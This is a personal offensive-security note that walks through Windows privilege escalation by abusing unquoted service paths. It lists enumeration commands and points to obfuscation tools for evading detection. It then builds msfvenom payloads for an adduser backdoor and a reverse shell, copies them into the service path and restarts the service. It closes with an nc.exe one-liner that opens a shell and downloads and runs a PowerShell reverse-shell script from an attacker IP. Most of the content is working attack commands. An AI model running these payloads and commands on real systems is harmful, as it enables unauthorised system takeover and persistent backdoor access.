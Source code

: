 #### Tags: [[06 - Privilege Escalation (TA0004)]] 

## Overview | Service Misconfiguration

Unquoted Service Path exploitation Pre-requisite

	- PATH is not using Quotes and Contains Space
	- Writeable PATH: Users should have write access in one of the folders where the binary path resides
	- Executes as LocalSystem
	- Users should have the right to restart the Service
## Enumeration 

### Script Enumeration
- Import script in memory & Do not touch the disk
- PowerShell Script Obfuscation Tools: https://github.com/JoelGMSec/Invoke-Stealth
```markdown
# PowerUp Obfuscated
GitHub Fetch Scipt > Execute! 
[RT GitHub: PScriptsObs: Scripts Obfuscated via chameleon](https://github.com/raghavtalwar/PScriptsObs/)

# PS Scripts
*Winpeas*
.\winPEAS.exe quiet servicesinfo
*PowerUp*
powershell.exe -nop -exec bypass -c ". .\PowerUp.ps1;Get-UnquotedService"

## Find them
powershell> Get-UnquotedService
powershell> Get-ModifiableServiceFile
powershell> Get-ModifiableService

# Execure a reverse shell or adding new user as administrator.
Write-ServiceBinary -name "Service_Name" -Path "C:\Service_name.exe"
Write-ServiceBinary -Name 'SalesFarce' -Path <HijackPath>
```
### Manual Enumeration
```
##  WMI (Powershell) ##
PS:> 
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List

##  Windows Management Instrumentation Command-Line (WMIC)  ##
CMD:> 
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

```markdown
# Identfy service with weak permissions or unquoted paths 
CMD:> .\accesschk64.exe /accepteula -uwcqv studentuser ***
PS:> Get-WmiObject -Class win32_service | select pathname
	+ Look out for Service with Spaces and not having Quotes!

# Manually Query Service 
CMD:> sc qc "service_name"
PS:> cmd /c sc qc "BOOTP Turbo"

# AccessCHK - Sysinternals
## Check Write access to Directory under Unquoted Service PATH
C:\PrivEsc\accesschk.exe /accepteula -wuqvd "C:\Program Files\Unquoted Path Service\"
RW BUILTIN\Users
	FILE_ALL_ACCESS
# ICACLS - Inbuilt binary

```

![[Pasted image 20240330234652.png]]
## Exploitation 
### Create Malicious Service
```markdown
# Add User Exploiation
msfvenom -p windows/adduser USER=backdoor PASS=backdoor -f exe > service.exe

# Reverse Shell Exploitation
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### Replace Service
#### Fetch the reverse.exe executable & Rename Correctly  >>  SMB
`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
`Ren "C:\Program Files\Unquoted Path Service\Common.exe" Unquoted.exe
#### Fetch the reverse.exe executable & Copy Correctly  >>  HTTP
`IWR -Uri 'http://10.0.2.54:90/reverse.exe' -Outfile "BOOTP.exe"
`copy C:\Temp\BOOTP.exe "C:\Program Files\BOOTP.exe"
### Start the service post modification of PATH
- Restart Service
	- `net stop <service>`
	- `net start <service>`
	or
	- `sc stop service_name
	- `sc start service_name`
- If unable to start the service try rebooting machine
	- `shutdown /r /t 0`

#### Notes | Bonus
- Create Links to this Page! 

##### # Transfer the Reverse Shell & !!IMP NOTE!!
- Example Full Path - 
    + `C:\Program Files\Unquoted Path Service\Common Files\jerry.exe`
    + An attacker can exploit this vulnerability by placing a malicious executable named `Program.exe`, `Files.exe`, or `Unquoted.exe`, for example, in any directory listed in the system's PATH environment variable.
- Place Reverse Shell, as Unquoted.exe under Program Files Folder
- Or, Place Common.exe under the Unquoted Path Service Folder
- Thus, Place it one Dir < BEFORE > as when Service Control Manager
- SCM starts this service, it will look at the following PATH
    + It will run the EXE that it will FIND.

Thus, windows primarily searches for an executable file based on the path specified in the service's configuration, not by the service name.

##### Spawn Powershell from Command Injection Vulnerability
`\\10.0.2.54\kali\nc.exe 10.0.2.54 443 -e "cmd.exe /c C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass iex(new-object net.webclient).downloadstring('http://10.0.2.54/Invoke-PowerShellTcp.ps1')"`
	+ Bypass Execution Policy as well!